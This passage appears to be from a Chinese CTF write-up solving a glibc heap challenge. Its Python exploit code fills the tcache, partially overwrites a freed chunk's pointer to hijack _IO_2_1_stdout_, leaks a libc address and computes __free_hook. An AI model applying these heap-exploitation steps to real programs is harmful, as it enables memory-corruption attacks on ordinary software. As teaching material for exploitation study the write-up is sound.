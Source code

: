 执行思路的1-4步：

```python
re(0x30)# 首先申请/释放 为后面覆盖写做准备 A
re(0) # 释放，并把指针置为空

re(0x80) # 申请 B
re(0) # 释放置空

re(0x40) # C
re(0) # 置0 隔开topchunk

re(0x80) # 申请回来 B

for x in range(7): # 释放7次
    fr()

re(0) # 得到unsorted bin 同时指针置空
```

看一下此时的`bins`：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210214114100.png)

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210214114401.png)

然后修改内存块B的`size`和`next`指针，劫持到`stdout`，同时泄露出地址

```python
re(0x30) # 取出来

# 修改两个字节 最低的一个字节是 0x60
des = int16(input('1 byes:'))
des = (des << 8) + 0x60

re(0x50, p64(0) * 7 + p64(0x51) + p16(des)) # 踩低字节
re(0)

re(0x80)
re(0)

msg = re(0x80, p64(0x0FBAD1887) + p64(0) * 3 + p8(0x58))
leak_addr = u64(msg[:8])

free_hook_addr = leak_addr + 0x5648
```

这里调试的时候可以发现，`_IO_2_1_stdout_`的低两个字节和`main_arena + 96`不同，理论上需要改这两个字节，实际上最后一个字节一直是`0x60`，所以只需要改一个字节就行了。此处为本地调试，可以手动查看要修改的内容，然后填上去。

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210214115218.png)

输入`0xb7`后，修改成功：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210214115423.png)

